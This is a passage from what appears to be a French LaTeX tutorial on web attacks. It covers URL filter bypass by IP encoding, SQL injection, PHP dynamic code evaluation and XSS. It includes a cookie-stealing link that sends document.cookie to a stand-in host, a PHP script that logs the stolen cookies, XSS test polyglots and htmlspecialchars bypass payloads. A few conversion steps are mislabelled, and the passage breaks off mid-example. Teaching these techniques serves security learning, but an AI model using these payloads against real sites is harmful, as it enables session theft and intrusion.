On obtient donc un simple chiffre et surtout un nouveau moyen d'offusquer notre url :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
http://2915189598
}}
\vspace{0.2cm}

Notons enfin que a ce dword, on peux ajouter un multiple de 256\^4, ce qui donne un nombre de possibilité infini pour passer outre ce filtre.

\subsection{Bypass de filtre URL par encodage hexadecimal}

Toujours sur le principe de conversation, il est aussi possible d'utiliser l'encodage hexadecimal pour une adresse IP. Reprenons notre adresse IP de google : 173.194.67.94
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
173 en base 10 = 10101101 en base 2 = (1*8+0*4+1*2+0*1) (1*8+1*4+0*2+1*1) =  AD\\
194 en base 10 = C2\\
67 en base 10 = 43\\
94 en base 10 = 5E
}}
\vspace{0.2cm}

On obtient donc l'adresse IP suivante en hexadecimal qui permet encore une fois de bypasser le filtre :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
http://0xAD.0xC2.0x43.0x5E
}}
\vspace{0.2cm}

\subsection{Bypass de filtre URL par encodage octal}

De la même manière, il est aussi possible de coder en octal l'adresse IP. Si l'on reprend l'adresse IP de notre superbe site google : 173.194.67.94
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
173 en base 10 = 10101101 en base 8 = (0*4+1*2+0*1) (1*4+0*2+1*1) (1*4+0*2+1*1) =  255\\
194 en base 10 = 302\\
67 en base 10 = 103\\
94 en base 10 = 136
}}
\vspace{0.2cm}

On obtient donc l'adresse IP suivante en octal cette fois-ci qui permet encore une fois de bypasser le filtre :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
http://0255.0302.0103.0136
}}
\vspace{0.2cm}

\subsection{Bypass de filtre URL par encodage URL}

Les navigateurs remplace les caractères encodés automatiquement. C'est pourquoi, si a la place d'écrire directement www.google.com mais le code suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
http://\%77\%77\%77\%2E\%67\%6F\%6F\%67\%6C\%65\%2E\%66\%72
}}
\vspace{0.2cm} 

On passera a travers un filtre qui cherchera la chaine "google". A noter que cette manière de faire ne fonctionne pas dans tous les navigateurs. Pour encoder une chaine, le lien suivante donne un bon tableau d'encodage : http://www.w3schools.com/tags/ref\_urlencode.asp


\newpage
\section{SQL}
\subsection{Préambule}
Une des plus grosse faille connu et redouté par les webmasters : l'injection SQL. Les conséquences de telles failles sont souvent désastreuses. Le hacker peut suivant la faille créer de nouveaux comptes bypassant les droits, recueillir des informations confidentielles, détruire la base de données...

Pour savoir si une injection sql, on test généralement différentes chaines comme celles qui sont récapitulé ci-dessous :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\begin{center}

\includegraphics[width=\textwidth]{sql8}
\end{center}
}}
\vspace{0.2cm}

Pour les exemples qui vont suivre, je vais me servir d'une petite base de données créé sous phpMyAdmin qui sera la suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\begin{center}

\includegraphics[width=0.5\textwidth]{sql1}
\end{center}
}}
\vspace{0.2cm}

\subsection{Simple SQL Injection}

Dans cette section, j'utiliserais le code suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{sql2}
}}
\vspace{0.2cm}

Ce qui nous permet d'obtenir un code par id :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{sql3}
}}
\vspace{0.2cm}

On remarque dans ce code que la variable id est directement inséré dans la query. Si a la place de ne fournir qu'un chiffre dans la variable get, on fournit une toute nouvelle requete à la suite. On obtient alors un résultat tout autre. Je vous met donc au défi de récupérer toutes les valeurs de la table via la variable GET. 
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{sql4}
}}
\vspace{0.2cm}

En injectant directement notre "1 UNION SELECT * FROM Latsuj" nous avons créé une nouvelle query qui nous permet d'obtenir toutes les informations que nous souhaitions. Mais nous ne ferons jamais comme ceci car dans la "vrai" vie, nous ignorons le nom de la database et des tables (quoiqu'il est parfois possible de les récupérer via d'autres injections). On utilisera plutot l'injection 1=1 comme ceci :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{sql5}
}}
\vspace{0.2cm}

Cette manière de faire est beaucoup plus jolie et performante !

\subsection{Simple SQL Injection 2}

Nous allons légèrement modifier le script pour rendre ce dernier un peu plus difficile et plus proche de la réalité. Remarquer l'ajout de parenthèses :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{sql6}
}}
\vspace{0.2cm}

Il faudra donc prendre en compte ces dernière pour refaire la même injection que précédemment :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{sql7}
}}
\vspace{0.2cm}

\newpage
\section{Direct Dynamic Code Evaluation}
\subsection{Préambule}

Afin d'illustrer le principe d'évaluation dynamique de code, un exemple simple ira plus vite que de longue ligne :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
<?php\\
\hspace*{0.6cm}\$myfunc = \$\_GET['myfunc'];\\
\hspace*{0.6cm}\$myfunc();\\
?>
}}
\vspace{0.2cm}

Dans le code suivant, si la variable GET myfunc est phpinfo. On injectera directement la fonction lors de l'execution du code :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{ddce}
}}
\vspace{0.2cm}


\newpage
\section{XSS}
\subsection{Préambule}
A cette question, je vais encore répondre par un exemple. Je considère que c'est par la pratique que l'on apprend les fondamentaux. Imaginons que nous soyons sur un forum et un lien a été posté. Bien entendu ce lien a été trafiqué par une XSS pour obtenir le code HTML suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\begin{scriptsize}
<a href="\#" onclick="document.location='http://www.xxx.com/hack/write.php?request='+document.cookie;">\\
LIEN\\
</a>
\end{scriptsize}
}}
\vspace{0.2cm}

Lorsque l'utilisateur cliquera dessus, ce lien le dirigera vers une page internet qui permet de récupérer le PHPSESSID par exemple qui est contenu dans un cookie. Avec cette information, il est alors possible d'usurper l'identité de l'utilisateur. Le script sur la page où arrivera l'utilisateur sera la suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\begin{scriptsize}
<?php\\
\hspace*{0.6cm}\$myfile = fopen("log.txt", "w") or die("Unable to open file!");\\
\hspace*{0.6cm}fwrite(\$myfile,\$\_GET['request']);\\
\hspace*{0.6cm}fclose(\$myfile);\\
?> \\
<script>\\
\hspace*{0.6cm}document.location="http://www.google.com";\\
</script>
\end{scriptsize}
}}
\vspace{0.2cm}

Ce qui permet alors d'obtenir toutes les informations du cookie dans un fichier texte puis de rediriger l'utilisateur vers le moteur de recherche google. Puis on peux ensuite lire tranquillement le document texte et avec des outils comme Cookie Manager+, on peux alors trafiquer ces propres cookies pour imiter celui de l'utilisateur. Ceci est le concept de base de la faille XSS mais il est possible de pousser le vice pour faire de nombreuses autres choses bien plus dangereuse et intéressante.\\

Pour l'ensemble des exemples ci-dessous, j'utiliserais un seul script qui permet de tester rapidement tous les cas possibles. C'est à dire que l'on peux tester à la fois les cas contenant des guillemets simples ou double, les cas qui utilisent les fonctions htmlentities ou encore htmlspecialchars.
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}

\includegraphics[width=\textwidth]{xss}
\vspace{0.2cm}
}}
\vspace{0.2cm}\\

\subsection{Test de l'existence d'une faille XSS de manière rapide}
Pour testé rapidement si une faille XSS est possible à un endroit ou non, on peux utiliser des chaines de test telles que les suivantes :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";\\
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--\\
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
\vspace{0.2cm}
}}
\vspace{0.2cm}

ou encore une balise déprécié :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}
<PLAINTEXT>
\vspace{0.2cm}
}}
\vspace{0.2cm}

Ou encore une autre version si l'espace est limité par le nombre de caractères, il faut cependant pour cette dernière analysé le code source retourné et chercher ceci " <XSS" ou "\&lt;XSS" :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}
'';!--"<XSS>=\&\{()\}
\vspace{0.2cm}
}}
\vspace{0.2cm}\\

\subsection{Simple XSS - balise script}
Prenons le script suivant sans aucune protection :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}

\includegraphics[width=0.5\textwidth]{12}
\vspace{0.2cm}
}}
\vspace{0.2cm}\\
Ici la moindre attaque XSS est possible, il est possible d'écrire directement du code dans les balises scripts. Par exemple, <script>alert(1)</script> :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}

\includegraphics[width=0.4\textwidth]{13}
\vspace{0.2cm}
}}
\vspace{0.2cm}\\
On obtient alors le résultat suivant qui nous montre qu'une faille XSS est possible ici :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}

\includegraphics[width=0.5\textwidth]{14}
\vspace{0.2cm}
}}
\subsection{XSS - Bypass htmlspecialchars par erreurs avec la balise SVG}
Dans certains cas, la fonction htmlspecialchars est inutile comme on peux le voir ci-dessous :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}

\includegraphics[width=0.9\textwidth]{15}
\vspace{0.2cm}
}}
\vspace{0.2cm}\\
On peux alors faire notre injection de la manière suivante : xss";prompt(/XSS/);//
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}

\includegraphics[width=0.5\textwidth]{16}
\vspace{0.2cm}
}}
\vspace{0.2cm}\\
On obtient alors le résultat suivant qui nous montre qu'une faille XSS est possible ici :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}

\includegraphics[width=0.5\textwidth]{17}
\vspace{0.2cm}
}}
\subsection{XSS - Bypass htmlspecialchars et htmlentities avec simples guillemets}
Si on se réfère à la documentation de PHP, par défaut sur la fonction htmlentites et/ou htmlspecialchars le flag ENT\_COMPAT est utilisé dans la fonction. Ce flag signifie que la fonction convertit les guillements doubles et ignore les guillemets simples. Autrement dit, si le codeur en question a écrit une fonction comme :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}
echo {\color{red}'}<a href={\color{blue}"}{\color{red}'}.htmlspecialchars(\$\_POST['XSS']).{\color{red}'}{\color{blue}"}>Test</a><br />{\color{red}'};
\vspace{0.2cm}
}}
\vspace{0.2cm}

Si on regarde attentivement, une injection XSS est donc ici possible avec par exemple la saisie suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\vspace{0.2cm}
XSS' autofocus onfocus='alert(1)
\vspace{0.2cm}
}}
\vspace{0.2cm}

L'autofocus permet de mettre automatiquement le focus sur le lien dès le chargement de la page tandis que le onfocus sera la fonction appelé dès que le lien aura le focus. Autrement dit, la fonction à l'intérieur du onfocus sera automatiquement chargé au chargement de la page sur le PC du client.

Effectuons un petit test avec onmouseover pour voir le résultat cela dans un navigateur récent :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{18}
}}
\vspace{0.2cm}

Je vais aussi utilisé Data Temper, un plugin de firefox, pour altérer ma requête POST afin de bypasser l'encodage du navigateur.
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{19}
}}
\vspace{0.2cm}

On obtient alors le résultat suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
